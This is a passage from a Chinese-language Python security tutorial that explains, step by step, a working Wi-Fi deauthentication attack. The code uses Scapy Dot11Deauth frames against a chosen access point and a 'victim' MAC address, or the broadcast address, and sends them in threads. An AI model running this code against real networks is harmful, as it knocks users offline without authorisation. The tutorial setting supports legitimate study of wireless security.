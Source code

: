 +   以下代码打开`wireless_data.dat`文件，获取信息，并显示给用户：

```py
      def main():
         interface = "mon0"
         s = shelve.open("wireless_data.dat")
         print "Seq", "\tBSSID\t\t", "\tChannel", "SSID"
         keys= s.keys()
         list1 = []
         for each in keys:
            list1.append(int(each))
            list1.sort()
         for key in list1:
            key = str(key)
            print key,"\t",s[key][0],"\t",s[key][1],"\t",s[key][2]
         s.close()
```

+   以下代码要求用户输入 AP 序列号。如果用户想指定任何受害者，那么用户可以提供受害者机器的 MAC；否则，代码将选择广播地址：

```py
        a = raw_input("Enter the seq number of wifi ")
        r = shelve.open("wireless_data.dat")
        print "Are you Sure to attack on ", r[a][0]," ",r[a][2]
        victim_mac = raw_input("Enter the victim MAC or for broadcast 
        press 0 \t")
        if victim_mac=='0':
          victim_mac ="FF:FF:FF:FF:FF:FF"
```

+   所选 AP 正在使用的信道号；以下代码段为`mon0`设置相同的信道号：

```py
        cmd1 = "iwconfig wlan1 channel "+str(r[a][1])
        cmd2 = "iwconfig mon0 channel "+str(r[a][1])
        os.system(cmd1)
        os.system(cmd2)
```

+   这段代码非常容易理解。`frame= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ Dot11Deauth()`语句创建去认证数据包。从本章的第一张截图中，您可以检查这些地址：

```py
  BSSID = r[a][0]
  frame= RadioTap()/ Dot11(addr1=BSSID,addr2=victim_mac, addr3=BSSID)/ 
  Dot11Deauth()
  frame1= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ 
  Dot11Deauth()
```

+   以下代码告诉线程攻击去攻击 deauth 攻击：

```py
  if victim_mac!="FF:FF:FF:FF:FF:FF":
    t1 = Thread(target=for_ap, args=(frame,interface))
    t1.start()
  t2 = Thread(target=for_client, args=(frame1,interface))
  t2.start()
```
